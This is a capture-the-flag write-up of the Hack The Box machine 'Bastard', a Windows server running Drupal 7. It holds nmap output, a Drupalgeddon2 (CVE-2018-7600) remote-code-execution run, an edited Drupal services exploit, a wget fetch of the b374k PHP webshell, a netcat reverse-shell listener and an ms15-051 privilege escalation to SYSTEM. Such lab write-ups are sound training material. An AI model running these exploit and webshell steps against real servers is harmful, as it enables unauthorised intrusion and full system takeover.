




---
search:
  exclude: true
---
# Bastard Writeup

## Introduction :

Bastard is a Windows box released back in march 2017. 

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Bastard]
      → nmap -F 10.10.10.9
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-20 14:15 GMT
      Nmap scan report for 10.10.10.9
      Host is up (0.11s latency).
      Not shown: 97 filtered ports
      PORT      STATE SERVICE
      80/tcp    open  http
      135/tcp   open  msrpc
      49154/tcp open  unknown
    
      Nmap done: 1 IP address (1 host up) scanned in 3.50 seconds
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Bastard]
      → nmap -sCV -p80,135,49154 10.10.10.9
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-20 14:15 GMT
    
      PORT    STATE SERVICE VERSION
      80/tcp  open  http    Microsoft IIS httpd 7.5
      |_http-generator: Drupal 7 (http://drupal.org)
      | http-methods:
      |_  Potentially risky methods: TRACE
      | http-robots.txt: 36 disallowed entries (15 shown)
      | /includes/ /misc/ /modules/ /profiles/ /scripts/
      | /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
      | /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
      |_/LICENSE.txt /MAINTAINERS.txt
      |_http-server-header: Microsoft-IIS/7.5
      |_http-title: Welcome to 10.10.10.9 | 10.10.10.9
      135/tcp open  msrpc   Microsoft Windows RPC
      Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 17.69 seconds
    
    

## **Part 2 : Getting User Access**

Looks like our nmap scan picked up a drupal 7 service running on port 80, let's run a quick searchsploit command to see the public exploits we could use :
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Bastard]
      → searchsploit drupal 7.
      ----------------------------------------------------------------------------- ----------------------------------------
       Exploit Title                                                               |  Path
                                                                                   | (/usr/share/exploitdb/)
      ----------------------------------------------------------------------------- ----------------------------------------
      Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)            | exploits/php/webapps/34992.py
      Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)             | exploits/php/webapps/44355.php
      Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)  | exploits/php/webapps/34984.py
      Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)  | exploits/php/webapps/34993.php
      Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)     | exploits/php/webapps/35150.php
      Drupal 7.12 - Multiple Vulnerabilities                                       | exploits/php/webapps/18564.txt
      Drupal 7.x Module Services - Remote Code Execution                           | exploits/php/webapps/41564.php
      Drupal < 4.7.6 - Post Comments Remote Command Execution                      | exploits/php/webapps/3313.pl
      Drupal < 7.34 - Denial of Service                                            | exploits/php/dos/35415.txt
      Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)     | exploits/php/webapps/44557.rb
      Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)  | exploits/php/webapps/44542.txt
      Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Ex | exploits/php/webapps/44449.rb
      Drupal Module CKEditor < 4.1WYSIWYG (Drupal 6.x/7.x) - Persistent Cross-Site | exploits/php/webapps/25493.txt
      Drupal Module Coder < 7.x-1.3/7.x-2.6 - Remote Code Execution                | exploits/php/remote/40144.php
      Drupal Module Cumulus 5.x-1.1/6.x-1.4 - 'tagcloud' Cross-Site Scripting      | exploits/php/webapps/35397.txt
      Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)            | exploits/php/remote/40130.rb
      Drupal avatar_uploader v7.x-1.0-beta8 - Arbitrary File Disclosure            | exploits/php/webapps/44501.txt
      ----------------------------------------------------------------------------- -------------------------------
    

copying 41564.php locally, we examine it and see that it wants us to browse to the /rest_endpoint. 

But we need to correct this url to /rest in order to get the desired effect :

After much trial and error, many of the aforementionned php scripts were outdated and unusable, so i switched over to a python script instead : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Bastard]
      → python3 2018-7600.py http://10.10.10.9/ -c "whoami"
    
      =============================================================================
      |          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
      |                              by pimps                                     |
      =============================================================================
    
      [*] Poisoning a form and including it in cache.
      [*] Poisoned form ID: form-F2PmgwKau-sei4wLBRAsbitLPDkYqeRHaKxEw4WeQNo
      [*] Triggering exploit to execute: whoami
      nt authority\iusr
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Bastard]
      → python3 2018-7600.py http://10.10.10.9/ -c "type C:\Users\dimitris\desktop\user.txt"
    
      =============================================================================
      |          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
      |                              by pimps                                     |
      =============================================================================
    
      [*] Poisoning a form and including it in cache.
      [*] Poisoned form ID: form-u8rZwB5AUBU3RSzFAvz5PX_RUlfC7iWMA0Om2-K_gXM
      [*] Triggering exploit to execute: type C:\Users\dimitris\desktop\user.txt
      baXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have the user flag 

## **Part 3 : Getting Root Access**

In order to read the root flag of this machine , we first need to somehow access the machine, first let's run the systeminfo command :
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Bastard]
      → python3 2018-7600.py http://10.10.10.9/ -c "systeminfo"
    
      =============================================================================
      |          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
      |                              by pimps                                     |
      =============================================================================
    
      [*] Poisoning a form and including it in cache.
      [*] Poisoned form ID: form-l-goUGhqwcUeRLLycex1-gKPluVKCYJEfkgbWBW7XXU
      [*] Triggering exploit to execute: systeminfo
    
      Host Name:                 BASTARD
      OS Name:                   Microsoft Windows Server 2008 R2 Datacenter
      OS Version:                6.1.7600 N/A Build 7600
      OS Manufacturer:           Microsoft Corporation
      OS Configuration:          Standalone Server
      OS Build Type:             Multiprocessor Free
      Registered Owner:          Windows User
      Registered Organization:
      Product ID:                00496-001-0001283-84782
      Original Install Date:     18/3/2017, 7:04:46 ��
      System Boot Time:          20/2/2020, 4:02:55 ��
      System Manufacturer:       VMware, Inc.
      System Model:              VMware Virtual Platform
      System Type:               x64-based PC
      Processor(s):              2 Processor(s) Installed.
                                 [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                                 [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
      BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
      Windows Directory:         C:\Windows
      System Directory:          C:\Windows\system32
      Boot Device:               \Device\HarddiskVolume1
      System Locale:             el;Greek
      Input Locale:              en-us;English (United States)
      Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
      Total Physical Memory:     2.047 MB
      Available Physical Memory: 1.494 MB
      Virtual Memory: Max Size:  4.095 MB
      Virtual Memory: Available: 3.492 MB
      Virtual Memory: In Use:    603 MB
      Page File Location(s):     C:\pagefile.sys
      Domain:                    HTB
      Logon Server:              N/A
      Hotfix(s):                 N/A
      Network Card(s):           1 NIC(s) Installed.
                                 [01]: Intel(R) PRO/1000 MT Network Connection
                                       Connection Name: Local Area Connection
                                       DHCP Enabled:    No
                                       IP address(es)
                                       [01]: 10.10.10.9
    

So here are a few more details of the box , let's try a php exploit that our searchsploit command found earlier : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Bastard]
      → locate 41564.php
      /usr/share/exploitdb/exploits/php/webapps/41564.php
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Bastard]
      → cp /usr/share/exploitdb/exploits/php/webapps/41564.php .
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Bastard]
      → nano 41564.php
    
    
    
      #!/usr/bin/php
    <****?php
    error_reporting(E_ALL);
    
    define('QID', 'anything');
    define('TYPE_PHP', 'application/vnd.php.serialized');
    define('TYPE_JSON', 'application/json');
    define('CONTROLLER', 'user');
    define('ACTION', 'login');
    
    $myfile = fopen('payload1.txt', 'r');
    $payload1 = fread($myfile,filesize('payload1.txt'));
    $url = '10.10.10.9';
    $endpoint_path = '/rest';
    $endpoint = 'rest_endpoint'; $file = [
     'filename' => 'exp1o1t9r.php',
     'data' => $payload1
    ];
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Bastard]
    → nano 41564.php
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Bastard]
    → wget -O payload1.txt https://raw.githubusercontent.com/BlackArch/webshells/master/php/b374k-2.7.php
    --2020-02-20 19:09:26--  https://raw.githubusercontent.com/BlackArch/webshells/master/php/b374k-2.7.php
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Bastard]
    → php 41564.php
    Stored session information in session.json
    Stored user information in user.json
    Cache contains 7 entries
    File written: 10.10.10.9/exp1o1t9r.php
    

Browse to http://10.10.10.9/exp1o1t9r.php logging in with his credentials : b374k and then browse to the reverse shell tab and select php reverse shell clicking Go once your terminal's netcat command is ready

 _Terminal_
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Bastard]
    → nc -lvnp 9003
    listening on [any] 9003 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.9] 49305
    b374k shell : connected
    C:\inetpub\drupal-7.54>whoami
    nt authority\iusr
    
    C:\inetpub\drupal-7.54>
    

once we're there, we upload the ms15-051.exe binary through the reverse php shell we just had in order to privesc ,which will send yet another reverse shell but this time as the administrator user : 
    
    
    C:\Windows\system32>whoami
    whoami
    nt authority\system
    
    C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt.txt
    type C:\Users\Administrator\Desktop\root.txt.txt
    4bXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we got the root flag :) 

## **Conclusion**

Here we can see the progress graph :

